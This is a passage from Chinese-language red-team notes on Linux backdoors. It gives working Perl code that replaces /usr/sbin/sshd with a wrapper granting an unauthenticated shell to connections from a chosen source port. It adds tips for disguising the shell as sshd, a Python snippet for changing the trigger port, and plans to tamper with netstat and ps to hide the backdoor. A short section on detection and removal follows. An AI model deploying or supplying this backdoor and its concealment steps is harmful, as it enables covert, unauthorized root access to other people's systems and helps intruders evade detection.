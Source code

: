 如下，无需认证即可成功连接：

![image-20200402185238945](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402185238945.png)



由于上述方案的后门会在网络连接中看到 **sh**的进程(易被发现)，

![image-20200402185953050](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402185953050.png)

为了增强隐蔽性，可以copy一份sh到其它目录，并重命名为sshd    ```cp /usr/bin/sh /root/sshd```重命名为/bin/sshd。后门建立连接后伪装性更强

修改后门源码:(执行目录修改为copy ssh重命名的/root/sshd)

```bash
#!/usr/bin/perl
exec"/root/sshd"if(getpeername(STDIN)=~/^..zf/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
```

![image-20200402191208209](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200402191208209.png)

为什么是19526端口呢？LF代表了端口号，如果想修改端口号可以执行如下操作

```python
#!/usr/bin/env python
# coding=utf-8

import struct
#这里输出的值是前命令中的值
buffer = struct.pack('>I6',19526)
print repr(buffer)
#这里输出的值可以用来替换,以自定义源端口
buffer = struct.pack('>I6',12345)  
print repr(buffer)
```

**检测清除**

1. 该后门会修改/usr/sbin/sshd的文件，检测该文件是否被修改(使用rpm命令) 

2. 复制相同的ssh版本号的sshd的文件进行替换即可。 

3. file命令查看sshd的文件格式，正常的sshd 文件是ELF格式，而后门是纯文本脚本

![image-20200401205146122](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200401205146122.png)

#####**改进**：隐藏

执行隐藏脚本的命令shell 以隐藏相关进程或网络连接等信息

> 篡改netstat，ps等命令，隐藏后门相关信息(防止被发现) 2 修改所有篡改命令的时间戳
>
> 方案一：*参考脚本附件一*  生产文本ASCTT格式的命令

> 方案二：参考脚本附件二  生成ELF二进制格式的篡改命令(隐蔽性更强)

### 7. 篡改命令后门(socat)
